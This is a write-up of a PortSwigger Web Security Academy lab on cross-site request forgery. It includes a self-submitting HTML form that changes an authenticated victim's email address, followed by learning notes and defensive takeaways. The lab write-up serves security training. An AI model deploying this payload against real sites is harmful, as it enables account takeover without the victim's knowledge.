

# CSRF Vulnerability with No Defenses

## Lab Result



---

## Lab Description

This lab demonstrates a Cross-Site Request Forgery (CSRF) vulnerability caused by the absence of anti-CSRF protections.

An attacker can craft a malicious request that changes a user's email address without the victim's knowledge while the victim is authenticated.

---

## Proof of Concept

### HTML & JavaScript Exploit

```html
<html>
<body>
    <form action="https://LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="attacker@evil-user.net" />
    </form>

    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

The malicious page automatically submits a forged request using the victim's active session.

---

## What I Learned

- Understanding the fundamentals of CSRF attacks.
- Identifying state-changing functionality vulnerable to request forgery.
- Creating malicious HTML forms to perform unauthorized actions.
- Using JavaScript to automate request submission.
- Understanding how authenticated sessions can be abused when CSRF protections are absent.

---

## Tools Used

- Burp Suite Community Edition
- Burp Repeater
- Exploit Server
- PortSwigger Web Security Academy

---

## Key Takeaways

- Sensitive actions should be protected with Anti-CSRF Tokens.
- Session cookies can be abused through forged requests.
- Origin and Referer validation provide additional protection.
- SameSite cookies help mitigate CSRF attacks.
- Layered security controls significantly reduce attack risk.

---

## Status

✅ Solved
